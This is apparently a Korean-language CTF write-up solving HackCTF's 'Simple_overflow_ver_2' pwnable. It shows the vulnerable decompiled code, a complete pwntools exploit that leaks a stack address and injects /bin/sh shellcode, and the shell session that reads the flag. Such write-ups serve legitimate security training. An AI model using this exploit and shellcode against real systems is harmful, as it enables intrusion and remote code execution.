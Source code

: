 #Simple_overflow_ver_2

---

`main()`의 코드는 다음과 같다

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) )
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break;
        if ( !(i & 0xF) )
          printf("%p: ", &s[i]);
        printf(" %c", (unsigned __int8)s[i]);
        if ( i % 16 == 15 )
          putchar(10);
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 'y' || v5 == 'Y') );
  return 0;
}
</pre>

s에 shellcode를 넣고 ret주소를 s의 주소로 변경시키면 될 것이다. s의 위치는 ebp-0x88이기 때문에 payload는 다음과 같다.

**[shellcode 25bytes] + [dummy 115bytes] + [s address 4bytes]**

첫 입력에서는 아무거나 입력해서 s의 address를 찾을 수 있다. 익스 코드는 다음과 같다.

    from pwn import*
    
    p=remote('ctf.j0n9hyun.xyz',3006)
    
    p.recvuntil('Data : ')
    
    p.sendline('1')
    
    s=p.recv(10)
    
    p.recvline()
    
    s_address=int(s,16)
    
    payload='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'
    payload+='A'*115
    payload+=p32(s_address)
    
    p.recvuntil('Again (y/n): ')
    
    p.sendline('y')
    
    p.recvuntil('Data : ')
    
    p.sendline(payload)
    
    p.interactive()

---
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/7.Simple_overflow_ver_2$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3006: Done
    [*] Switching to interactive mode
    0xffe94130:  1 � 1 � P h / / s h h / b i n \x89
    0xffe94140:  � R S \x89 � � \x0b � \x80 A A A A A A A
    0xffe94150:  A A A A A A A A A A A A A A A A
    0xffe94160:  A A A A A A A A A A A A A A A A
    0xffe94170:  A A A A A A A A A A A A A A A A
    0xffe94180:  A A A A A A A A A A A A A A A A
    0xffe94190:  A A A A A A A A A A A A A A A A
    0xffe941a0:  A A A A A A A A A A A A A A A A
    0xffe941b0:  \x80
    Again (y/n): $ whoami
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}

**flag: HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}**